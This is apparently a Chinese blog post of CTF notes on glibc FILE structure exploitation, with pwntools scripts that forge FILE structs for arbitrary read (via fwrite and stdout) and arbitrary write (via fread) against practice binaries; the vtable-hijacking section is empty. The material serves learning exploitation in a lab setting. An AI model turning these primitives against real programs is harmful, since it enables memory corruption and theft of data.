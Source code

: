 ```yaml
---
layout: post
tags: [pwn]
title: "File Struct 利用手法"
author: wsxk
date: 2025-4-21
comments: true
---
```


- [1. 任意地址读](#1-任意地址读)
  - [1.1 变体: 利用stdout来任意地址读](#11-变体-利用stdout来任意地址读)
- [2. 任意地址写](#2-任意地址写)
- [3. 劫持vtable](#3-劫持vtable)


# 1. 任意地址读<br>
前提条件:**能够控制file_struct结构体,且能调用fwrite函数**<br>
```python
from pwn import *
context.log_level='debug'
context.os='linux'
context.arch='amd64'

binary_path = "./babyfile_level1"
binary_path = "/challenge/babyfile_level1"
p = process(binary_path)
p.recvuntil(b"The flag has been read into memory and is located at ")
secret = int(p.recvline().strip(b"\n"),16)
log.success(f"secret: {hex(secret)}")

#利用部分，可以借助pwntools工具的强大库函数帮助我们生成想要的结构体，十分方便
file = FileStructure()
payload = file.write(secret,0x30)  
print(file)
"""
{ flags: 0x800
 _IO_read_ptr: 0x0
 _IO_read_end: 0x4040e0
 _IO_read_base: 0x0
 _IO_write_base: 0x4040e0
 _IO_write_ptr: 0x404110
 _IO_write_end: 0x0
 _IO_buf_base: 0x0
 _IO_buf_end: 0x0
 _IO_save_base: 0x0
 _IO_backup_base: 0x0
 _IO_save_end: 0x0
 markers: 0x0
 chain: 0x0
 fileno: 0x1
 _flags2: 0x0
 _old_offset: 0xffffffffffffffff
 _cur_column: 0x0
 _vtable_offset: 0x0
 _shortbuf: 0x0
 unknown1: 0x0
 _lock: 0x0
 _offset: 0xffffffffffffffff
 _codecvt: 0x0
 _wide_data: 0x0
 unknown2: 0x0
 vtable: 0x0
"""
p.send(payload)
p.interactive()
```
## 1.1 变体: 利用stdout来任意地址读<br>
前提条件：**能够修改stdout结构体，知道要泄露的地址，调用puts/printf等函数**<br>
核心思路还是没变。<br>
```
1. 调用puts/printf等函数时，发现缓冲区已满，打印缓冲区
```

```python
from pwn import *
context.log_level='debug'
context.os='linux'
context.arch='amd64'
#context.terminal = ["tmux","splitw","-h"]

#binary_path = "./babyfile_level5"
binary_path = "/challenge/babyfile_level5"

p = process(binary_path)
p.recvuntil(b"The flag has been read into memory and is located at ")
secret_addr = int(p.recvline().strip(b"\n"),16)
log.success(f"secret_addr: {hex(secret_addr)}")

p.recvuntil(b"Now reading from stdin directly to the FILE struct.\n")
fp = FileStructure()
payload = fp.write(secret_addr,0x30)
p.send(payload)

p.interactive()
```


# 2. 任意地址写<br>
前提条件:**能够控制file_struct结构体,且能调用fread函数**<br>
```python
from pwn import *
context.log_level='debug'
context.os='linux'
context.arch='amd64'
context.terminal = ["tmux","splitw","-h"]

binary_path = "./babyfile_level2"
#binary_path = "/challenge/babyfile_level2"

p = process(binary_path)
p.recvuntil(b"Now reading from stdin directly to the FILE struct.\n")
#gdb.attach(p,"b *0x401A61")
#pause()

# file struct construction
file = FileStructure()
payload = file.read(0x4041F8,0x101) # 注意，read设置的buffer_size，必须大于fread读取的字节数；我猜测这么做的原因是，如果file_buf太小，就没必要拷贝到file_buf中了，直接拷贝到目标buffere中即可
print(file)
"""
{ flags: 0x0
 _IO_read_ptr: 0x0
 _IO_read_end: 0x0
 _IO_read_base: 0x0
 _IO_write_base: 0x0
 _IO_write_ptr: 0x0
 _IO_write_end: 0x0
 _IO_buf_base: 0x4041f8
 _IO_buf_end: 0x4041fc
 _IO_save_base: 0x0
 _IO_backup_base: 0x0
 _IO_save_end: 0x0
 markers: 0x0
 chain: 0x0
 fileno: 0x0
 _flags2: 0x0
 _old_offset: 0xffffffffffffffff
 _cur_column: 0x0
 _vtable_offset: 0x0
 _shortbuf: 0x0
 unknown1: 0x0
 _lock: 0x0
 _offset: 0xffffffffffffffff
 _codecvt: 0x0
 _wide_data: 0x0
 unknown2: 0x0
 vtable: 0x0}
"""
print(payload)
p.send(payload)

p.recvuntil(b"Here is the contents of the FILE structure.")
p.send(b"a"*0x100)
p.interactive()
```
# 3. 劫持vtable<br>









<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>

